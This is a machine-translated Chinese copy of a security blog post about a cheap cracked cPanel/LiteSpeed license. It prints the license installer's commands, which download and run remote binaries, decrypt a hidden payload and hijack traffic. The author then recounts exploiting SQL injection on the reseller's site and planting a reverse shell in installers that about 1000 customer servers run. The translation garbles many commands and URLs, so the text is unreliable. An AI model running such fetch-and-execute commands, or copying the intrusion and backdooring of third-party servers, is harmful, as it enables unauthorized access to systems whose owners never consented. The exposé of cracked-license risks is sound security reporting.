# 共享许可还是破解？访问 1000 多台服务器

> 原文：<https://infosecwriteups.com/shared-license-or-crack-access-to-1000-servers-2c4d97b9b22b?source=collection_archive---------1----------------------->

向所有读者致敬，

事实上，我想为我的主机服务器购买 Cpanel 和 LiteSpeed 许可证，所以我在谷歌上搜索，发现一些便宜的提供商说共享许可证。因为 Cpanel 只接受国际信用卡，而我没有，所以我在谷歌上搜索印度的信用卡提供商。

通常，这些软件计划起价约为 15-20 美元/月，但一些网站如 SKHOST、BALLIAHOST 和许多其他网站显示，同样的计划起价约为 3-5 美元。



> 所以都说**共享许可没有破解完全安全**，我真的是购买许可的新手，所以我落入他们的陷阱，支付了两者。



我支付了大约 15 美元，并检查了他们的客户区的许可证密钥。
它显示运行某种命令来激活产品

> rm -rf 安装程序
> rm -rf 设置
> wget license.skphost.net/litespeed/installer
> chmod+x 安装程序
> 。/installer
> skp host-LicenseLSWS

真的吗？

所以他们想让我为产品安装一些第三方脚本。

所以基本上我是在为一些不知名的脚本付费，这些脚本的责任既不在 Cpanel，也不在卖家；_;我想为什么不检查他们想要我运行的脚本，所以我启动了 gdb 来检查那些文件。



有一个系统函数被调用，在设置一个断点后，我们可以检查寄存器的值。

> RM-RF/root/setup；CD/root；wget[http://litespeed.resellercenter.ir/litespeedv1/setup](http://litespeed.resellercenter.ir/litespeedv1/setup)/dev/null 2>1；chmod+x setup
> PHP/root/setup

所以这个脚本从另一个服务器获取一些 PHP 文件。



整个脚本受 Source Guardian 保护。根据 Source guardian 网站的说法，“我们的 PHP 编码器通过将 PHP 源代码编译成二进制字节码格式来保护您的 PHP 代码，然后补充一个加密层。”
所以我们无法从内存中获得正确的源代码，但我在媒体上找到了一篇由 [Chris Lyne](https://medium.com/u/f73d48b47782?source=post_page-----2c4d97b9b22b--------------------------------) 撰写的精彩文章。

> [https://medium . com/tenable-tech blog/dumping-PHP-opcodes-protected-by-source guardian-a0acd 8058038](https://medium.com/tenable-techblog/dumping-php-opcodes-protected-by-sourceguardian-a0acd8058038)

我使用了 Chris Lyne 的技巧从文件中转储 PHP 操作码。



咔呜！！无红利(ex-dividend)

这个脚本安装 Proxychains、LiteSpeed，并获取更多的文件。
除了他们的文件，还有一行引起了我的注意

> CD/usr/src；RM-RF lsws _ whm _ auto installer . sh；wget[https://www . litespeedtech . com/packages/cpanel/lsws _ whm _ auto installer . sh](https://www.litespeedtech.com/packages/cpanel/lsws_whm_autoinstaller.sh)；chmod a+x lsws _ whm _ auto installer . sh；。/lsws_whm_autoinstaller.sh 试用 1 0 admin WFI 9 fqh xxxxxxxxxxxx root @ localhost 1 1 '

因此，运行安装 lsw 脚本的服务器将使用相同的 LiteSpeed web 控制台证书进行安装。

让我们再次分析这里得到的外部文件。

> http://litespeed.resellercenter.ir/litespeedv1/RcLicense[LSWS](http://litespeed.resellercenter.ir/litespeedv1/RcLicense_lsws)
> 
> root @ IP:/tmp/litespeed # file RcLicenseLSWS
> RcLicenseLSWS:ELF 64 位 LSB 可执行文件，x86–64，版本 1 (SYSV)，动态链接，解释器/lib 64/LD-Linux-x86–64 . so . 2，对于 GNU/Linux 2.6.32，BuildID[sha1]= 1d 86 ee 60 CBF 26237 Bab 45 e 92 bb 19 e 5 da c19 BD 9 a 3，未剥离
> root @ IP:/



再次是获取其他文件的系统函数；-;

> wget -O /usr/bin/。r license _ lsws[https://litespeed . resellercenter . IR/litespeed v2/seRcLicense _ lsws](https://litespeed.resellercenter.ir/litespeedv2/seRcLicense_lsws)/dev/null 2>&1
> OpenSSL AES-256-CBC-in/usr/bin/。r license _ lsws-out/usr/local/。vmfilsws-d-pass pass:xxxxxxxxxxxx
> PHP/usr/local/。vmfilsws
> comp 0-I/usr/local/。vmfilsws>/dev/null 2>1
> umount/usr/local/。vmfilsws>/dev/null 2>&1
> RM-RF/usr/local/。vmfilsws>/dev/null 2>&1
> RM-RF/usr/bin/。r license _ lsws>/dev/null 2>&1

这个 seRcLicense 是由 OpenSSL 编码的，但是等等，当密码在二进制文件本身中时有什么意义呢😆

因此，解码后，它又是一个用 Source Guardian 编码的 PHP 文件，但我们可以像前面一样转储操作码。



检查后，不难理解他们如何阻止 LiteSpeed 服务器的所有流量，并将它们重定向到自己的服务器，并用 socks one 替换许可证。

**反正这些二进制文件和 PHP 文件已经够多了。**

让我们直接来到服务器访问头奖部分😈

我想我从印度卖家那里购买了这个许可证，他们从伊朗网站上转售这些，所以我运行了一些子域名和 waybackurls 的工具，得到了一些有趣的链接。



检查了几个链接后，我发现其中一些容易受到 SQLI 的攻击。



一张表中有 900 多个活动 IP

我查了 verify.cpanel 上的 IPs。他们都没有一个有效的工作计划。

要么已过期，要么正在运行 15 天的试用期。

还记得用于配置的脚本中 Litespeed 的密码吗？
我尝试从数据库中随机命中 IP，并尝试登录



但这不是我们感兴趣的，所以我尝试使用从链接中找到的凭证。瞧，它起作用了，在进入他们的网站后，我能够看到他们所有的数据和文件。

检查他们的数据库，有 9K+的 IP，超过 1000 活跃。

基本上，他们在运行一个完整的 whmcs 来销售这些脚本，这些脚本在购买时从用户那里获取一个 IP(让他们相信他们的 IP 正在获得许可授权)。
为了转售，他们制作了一个门户和 wchms 插件，为用户提供脚本。
我只是在他们的一个安装程序脚本中放了一个反向 shell，然后嘣



因为我可以修改或添加任何我想要的东西，而获取这些文件的服务器会盲目地运行它。

嗯，这只是从一个单一的供应商，但如果你谷歌购买便宜的 Cpanel，Whcms，LiteSpeed 等软件或共享许可证，你会发现数以千计的网站出售这些类型的廉价破解。以销售共享许可的名义，他们强迫你安装他们自己的脚本。总之，我白白浪费了大约 15 美元，后来不得不再次从主网站上购买许可证。

结论——永远不要相信互联网上的廉价替代品，停止使用破解/无效软件。